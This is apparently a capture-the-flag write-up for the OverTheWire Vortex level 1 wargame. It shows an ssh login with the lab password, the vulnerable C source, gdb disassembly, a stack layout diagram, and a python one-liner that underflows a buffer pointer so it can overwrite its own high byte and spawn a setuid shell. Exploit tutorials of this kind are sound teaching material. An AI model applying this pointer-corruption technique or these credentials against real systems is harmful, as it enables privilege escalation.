

## VORTEX1

Login to the vortex1 challenge via ssh :

```
critical@d3ad:~$ ssh vortex1@vortex.labs.overthewire.org -p 2228

                 _            
__   _____  _ __| |_ _____  __
\ \ / / _ \| '__| __/ _ \ \/ /
 \ V / (_) | |  | ||  __/>  < 
  \_/ \___/|_|   \__\___/_/\_\
                              
a http://www.overthewire.org wargame.

vortex1@vortex.labs.overthewire.org's password: Gq#qu3bF3
```

The first step was finding the `vortex1` binary and identifying its filetype.

```
vortex1@vortex:~$ find / -type f -name vortex1* 2> /dev/null
/etc/vortex_pass/vortex16
/etc/vortex_pass/vortex19
/etc/vortex_pass/vortex11
/etc/vortex_pass/vortex13
/etc/vortex_pass/vortex18
/etc/vortex_pass/vortex14
/etc/vortex_pass/vortex15
/etc/vortex_pass/vortex1
/etc/vortex_pass/vortex10
/etc/vortex_pass/vortex12
/etc/vortex_pass/vortex17
/vortex/vortex16
/vortex/vortex19
/vortex/vortex11
/vortex/vortex13
/vortex/vortex18
/vortex/vortex15
/vortex/vortex14.txt
/vortex/vortex1
/vortex/vortex10
/vortex/vortex15.tar.Z.enc
/vortex/vortex12
/vortex/vortex17

vortex1@vortex:~$ file /vortex/vortex1
/vortex/vortex1: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=09bc7b2fb83746b16c27d56e7fc2da484d15601e, not stripped

```

So, the binary is located at `/vortex/` directory.

Let's have a look at the source code and find the vulnerability -

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]); 
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break; 
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}

```
According to the Source code -

* ptr is initialized to point to the middle of a 512 bytes buffer, i.e. at (buf + 256).
* We can give three types of input 
1. A **'\n'** character which when provided at the end of our input will print out the whole buffer for us.
2. A **'\\** character which will decrement the pointer 'ptr'.
3. Any other character which checks if value of **ptr** after bitwise-AND'ing it with 0xff000000 is equal to 0xca000000 or not. If it is equal, `/bin/sh` program is spawned. 

So, our goal here is to somehow write the most-significant byte of `ptr` with `"\xca"` such that when ptr (0xcaxxxxxx) is masked with 0xff000000, it gives the output `0xca000000` and shell is spawned.

Let's have a look at the disassembly of the binary.
```
vortex1@vortex:~$ gdb -q /vortex/vortex1
Reading symbols from /vortex/vortex1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x080485c0 <+0>:	push   ebp
  ...
   0x080485c8 <+8>:	sub    esp,0x220
```
 0x080485c8 <+8> : Reserves space for main()'s stack frame which is 0x220 (544) bytes in size.


```
   0x080485ce <+14>:	mov    eax,gs:0x14
   0x080485d4 <+20>:	mov    DWORD PTR [esp+0x21c],eax
```
Here, a /GS stack cookie (placing stack cannary, which is a mitigation technique) is placed after the buffer so that when the memory corruption occurs and attempts to overwrite the return pointer, it first corrupts the stack cannary and stack smashing is detected.

So, I was quite sure of not overflowing the buffer to higher addresses, but how could I then be able to change the value stored in `ptr`. I had a possibility in mind that giving huge amount of "\\" as input which decrements the ptr upto 0xcaxxxxxx but that probably won't work out. 


```
   0x080485db <+27>:	xor    eax,eax
   0x080485dd <+29>:	lea    eax,[esp+0x1c]
   0x080485e1 <+33>:	add    eax,0x100

   0x080485e6 <+38>:	mov    DWORD PTR [esp+0x14],eax
   ...
```
Here, `[esp+0x14]` is `ptr` (wich on <+33> gets incremented by 0x100 or 256 bytes) and `[esp+0x1c]` is `buf`.
```  
   0x0804868e <+206>:	call   0x8048400 <getchar@plt>
   0x08048693 <+211>:	mov    DWORD PTR [esp+0x18],eax
```
Here, `[esp+0x18]` is `variable x`.

To find the vulnerability, we would have to analyse how main()'s 
stack frame is organised.

```
                 0x00000000
                    .
                    .
            |----------------|
            |       ptr      | <- [esp + 0x14]
            |----------------|
            |   variable x   | <- [esp + 0x18]
            |----------------|
            |                |
            |                | 
            |    buf[512]    | <-- ptr (where pointer to : buf + 256)
            |                |
            |                |
            |----------------|            
            | Stack Cannary  |
            |----------------|
            | Saved EBP      |
            |----------------|
            | Return Pointer |
             ^^^^^^^^^^^^^^^^
                    .
                    .
                0xffffffff

```
We cannot move `ptr` down (out of bounds of buf), but we surely can move the `ptr` up and reach out location of `ptr` variable. If we overwrite the most significant byte of ptr to `0xca` and call e(), it would spawn a shell

For this, I used python to craft an input. First we decrement `ptr` to 261 characters (i.e. 256 characters to reach the start of `buf` and then decrementing by 4 to reach the `variable x`, then decrementing by 1 to reach the most significant byte of `ptr`(read about [endianess])). 

```
vortex1@vortex:~$ python -c 'import sys; print "\\"*256 + "\\"*5 + "\xca" + "A"*256; sys.stdout.flush() '| /vortex/vortex1
vortex1@vortex:~$
```
But it seems that nothing happens. But why ?

What's happening is, STDIN stream still contains the `EOF` character since it is not cleaned up by the the kernel. So, the "/bin/sh" executes but immediately exits. To overcome this situation, what we can do is flush the STDIN buffer maintained by the kernel. This can be done via `flush()` on `stdout stream` (which is provided by the `sys` module in python).

**NOTE**: As described in detail in [this] article : *"The kernel buffer, created by the pipe system call from the shell, is sized based on the page size for the system"*, also *"The linux pipe buffers have changed to circular buffers (16 x 4KiB)"*. So, another way is to provide an input of size greater than a page size so that our input characters overwrite the EOF character after 4096 bytes (a page size). 





NAME  : **ABHINAV THAKUR** <br>
EMAIL : **compilepeace@gmail.com**

[endianess]: https://en.wikipedia.org/wiki/Endianness
[this]: http://www.pixelbeat.org/programming/stdio_buffering/